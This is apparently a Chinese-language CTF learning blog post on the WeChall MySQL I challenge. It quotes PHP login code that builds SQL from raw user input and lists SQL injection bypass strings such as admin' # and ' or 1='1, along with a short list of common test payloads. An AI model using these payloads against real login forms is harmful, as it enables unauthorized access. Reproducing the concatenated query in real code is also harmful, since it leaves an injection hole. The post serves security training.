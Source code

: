 ```yaml
---
layout: post
title: "wechall-mysql 1"
date: 2019-05-15
author: jjnoob
categories:
- 2019-05
tags:
- ctf
---
```


> sql注入的学习. 看别人的writeup, 积累.

[参考 leehaming](https://blog.csdn.net/lee_ham/article/details/77185049)


# Wechall - Training: MySQL I (MySQL, Exploit, Training)

```
username: admin' or '1'='1
passowrd: anyone
```

# 源码

```sql
# TABLE STRUCTURE
CREATE TABLE IF NOT EXISTS users (
userid    INT(11) UNSIGNED AUTO_INCREMENT PRIMARY KEY, 
username  VARCHAR(32) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL,
password  CHAR(32) CHARACTER SET ascii COLLATE ascii_bin NOT NULL
) ENGINE=myISAM;
```
创建一个表users，表的三个列分别为userid，username，password


* `UNSIGNED` 无符号, 非负数, 可以增加数据长度.
* `CHARACTER SET utf8` 设置默认编码为utf8
* `COLLATE utf8_general_ci` 数据库校对规则。该三部分分别为数据库字符集、解释不明白、区分大小写.
* `collate` : 校对集，主要是对字符集之间的比较和排序.

```php
# Username and Password sent?

if ( ('' !== ($username = Common::getPostString('username'))) && (false !== ($password = Common::getPostString('password', false))) ) {
      auth1_onLogin($chall, $username, $password);
}
```
是判断用户名和密码是否已经发送给服务器

* `Common::getPostString`是调用已有函数，功能为从表单中获取字符串信息
* `auth1_onLogin`为下边的自定义函数，功能为验证用户名和密码


```php
/**
 * Get the database for this challenge.
 * @return GDO_Database
 */
function auth1_db()
{
        if (false === ($db = gdo_db_instance('localhost', WCC_AUTH_BYPASS1_USER, WCC_AUTH_BYPASS1_PASS, WCC_AUTH_BYPASS1_DB))) {
                die('Database error 0815_1!');
        }
        $db->setLogging(false);
        $db->setEMailOnError(false);
        return $db;
}
```

获取本题需要的数据库, 即登陆.


```php
/**
* Exploit this!
* @param WC_Challenge $chall
* @param unknown_type $username
* @param unknown_type $password
* @return boolean
*/
function auth1_onLogin(WC_Challenge $chall, $username, $password)
{
      $db = auth1_db();

      $password = md5($password);

      $query = "SELECT * FROM users WHERE username='$username' AND password='$password'";

      if (false === ($result = $db->queryFirst($query))) {
              echo GWF_HTML::error('Auth1', $chall->lang('err_unknown'), false); # Unknown user
              return false;
      }

      # Welcome back!
      echo GWF_HTML::message('Auth1', $chall->lang('msg_welcome_back', htmlspecialchars($result['username'])), false);

      # Challenge solved?
      if (strtolower($result['username']) === 'admin') {
              $chall->onChallengeSolved(GWF_Session::getUserID());
      }

      return true;
}
```


* 这部分就是之前提到的自定义函数，用来处理表单提交的数据。函数与表单之间通过参数`username`和`password`传递数据
* 从html表单中输入的username和password就可以代入到这里的query语句中就可以了。
* 接着`result=result=db->queryFirst($query)`处理MySQL语句并且将结果返回给result，如果查询结果不是false，说明结果存在。
* `$result[‘username’]) === ‘admin’`判断用户是否是admin，如果是说明管理员登录。
* 完成登陆过程。


<br />

# 注入
输入username和password使得执行query语句的结果存在并且用户名为Admin。但是由于我们不知道真实的admin的密码，所以我们想办法绕过password。即我们可以减少select的限制条件，通过将query中AND及其后边的语句在MySQL语句中注释掉，就可以将query改写为：
```sql
SELECT * FROM users WHERE username='admin'
```

单行注释:`#`和`–`

构造过程:
* username为：`admin' #`
* password不填

另外, 这种也是可以的:
```sql
admin' or '1'='1
anyone
```
常见的SQL诸如语句测试:
```sql
’ or ‘1’=’1 
’ or 1=1 – 
‘or’=’0’ 
“or 1=1 – 
or 1=1 – 
‘or’ a ‘=’ a 
“or” a “=” a
```

<br />

# Writeup 2


[参考博客园宋姑娘](https://www.cnblogs.com/dreamofus/p/5950844.html)


## 源码
* 判断方式:
```sql
"SELECT * FROM users WHERE username='$username' AND password='$password'";
```
* 而且有admin这个用户的特判

## 注入:
* 利用php的局部注释“#”可以进行攻击：
* username输入：`admin' and 1=1 #`

这里的代码将被翻译成:
```sql
username='admin' # and  password='$password'"
```
所以密码的验证将被忽略，可以作为admin登录


<br />

# SQL万能密码：`' or 1='1`

[参考friendan](https://blog.csdn.net/friendan/article/details/52215980)

```sql
select name,pass from tbAdmin where name='admin' and pass='123456'
```

输入用户名：`' or 1='1`

SQL变成:
```sql
select name,pass from tbAdmin where name='' or 1='1' and pass='123456'
```

`1='1'` 永远为真，所以就验证通过.
